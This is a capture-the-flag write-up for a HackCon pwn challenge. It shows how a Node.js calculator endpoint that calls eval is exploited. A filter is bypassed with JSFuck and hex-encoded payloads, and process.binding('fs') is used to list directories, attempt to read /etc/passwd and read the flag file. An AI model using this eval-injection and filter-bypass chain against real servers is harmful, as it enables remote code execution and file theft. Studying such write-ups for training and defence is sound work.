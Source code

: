 # Stolen Calculator - PWN (HackCon ctf)

Description: 
### I stole this calculator from someone and made some changes because I am the plagiarism god. Bow before me now. btw wanna try it: http://defcon.org.in:9080/ Hint: This is a pwn challenge

Here we have calculator:


![](http://s016.radikal.ru/i336/1708/c3/ba35c0dd3e53.png)

If we look at calculator source code, we will see hardcoded url : 
``` urll = "http://defcon.org.in:10300/" + encodeURIComponent( strrr ); ```
But this code will never run, because there was a mistake in js file. So lets try request  this url in burp:

![](http://s019.radikal.ru/i618/1708/32/98b0f49eb8f4.png)

If we try to ``` GET /1+1 ``` we will receive 
```HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1
ETag: W/"1-2kuSN7rMzfGcB2DKt67EqDWQELA"
Date: Wed, 30 Aug 2017 11:03:43 GMT
Connection: close

2
```

If we request some string, we will get 
```HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 3
ETag: W/"3-6zXDIdaZfDRIgpYriqHNCTmxI+E"
Date: Wed, 30 Aug 2017 11:05:08 GMT
Connection: close

err 
```
We can notice that there is eval node.js on other side by sending ``` $ ```
```
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'self'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 965
Date: Wed, 30 Aug 2017 11:06:21 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: $ is not defined<br> &nbsp; &nbsp;at eval (eval at &lt;anonymous&gt; (/bf.js:21:17), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at /bf.js:21:17<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at param (/node_modules/express/lib/router/index.js:354:14)<br> &nbsp; &nbsp;at param (/node_modules/express/lib/router/index.js:365:14)<br> &nbsp; &nbsp;at Function.process_params (/node_modules/express/lib/router/index.js:410:3)</pre>
</body>
</html>
```
So WAF is blocking any string we send, but if send ``` ({}) ``` we will receive 
``` HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 15
ETag: W/"f-wdRP8Dr/E3KFbCgYVPRU4uHRW3w"
Date: Wed, 30 Aug 2017 11:08:24 GMT
Connection: close

[object Object]
```
So lets try to use JSFuck to bypass this WAF. We can convert any javascript to JSFuck with help of http://www.jsfuck.com . If we send ``` return  process.argv ```
, in JSFuck it will look like ``` GET /[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]..... ``` and so on.
We will receive ``` /usr/local/bin/node,/bf.js ```. We have RCE. 

We cant send ```require``` because it is not defined. But we can use ``` process.binding ``` instead to read/write.
But we have strong restriction in node.js. We can send get request no larger than 80kb. And if we try to send ```buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer ``` coverted to JSFuck , it will be 93369 bytes. I tried somehow to compress it, but length was still >85000.

The solution here is to use base64 or hex encode/decode and use ``` process.binding('fs').readdir('/')``` in js. Base64 will not work because there are a lot of letters in encoding , and they will be converted in larger pieces.
Convert ``` d=process.binding('fs').readdir('/etc/', 0, 0600);d; ``` to ascii hex. We will get ``` 643d70726f636573732e62696e64696e672827667327292e7265616464697228272f272c20302c2030363030293b643b```
Convert ``` var a = new Buffer("643d70726f636573732e62696e64696e672827667327292e7265616464697228272f272c20302c2030363030293b643b", "hex").toString();b = eval(a.toString()); return b``` to JSFuck and we will get 47651 chars. If we send them, we will get responce 

``` HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 152
ETag: W/"98-P8Y7q+l1+xsDl9SL2vRfvqsKG3o"
Date: Wed, 30 Aug 2017 11:33:54 GMT
Connection: close

.dockerenv,bf.js,bin,boot,dev,etc,flag.txt,home,lib,lib64,media,mnt,node_modules,opt,package-lock.json,proc,root,run,sbin,srv,startup.sh,sys,tmp,usr,var
```
Now we must read flag.txt using ```process.binding('fs').open('flag.txt', 0, 0600)```. 

## POC: 
```GET 
/JSFuckConvert(var a = new Buffer("627566666572203d204275666665722e616c6c6f63556e736166652838313932293b2070726f636573732e62696e64696e672827667327292e726561642870726f636573732e62696e64696e672827667327292e6f70656e2827666c61672e747874272c20302c2030363030292c206275666665722c20302c2034303936293b2020627566666572", "hex").toString();b = eval(a.toString()); return b)```

![](http://s019.radikal.ru/i642/1708/c5/27928aead910.png)
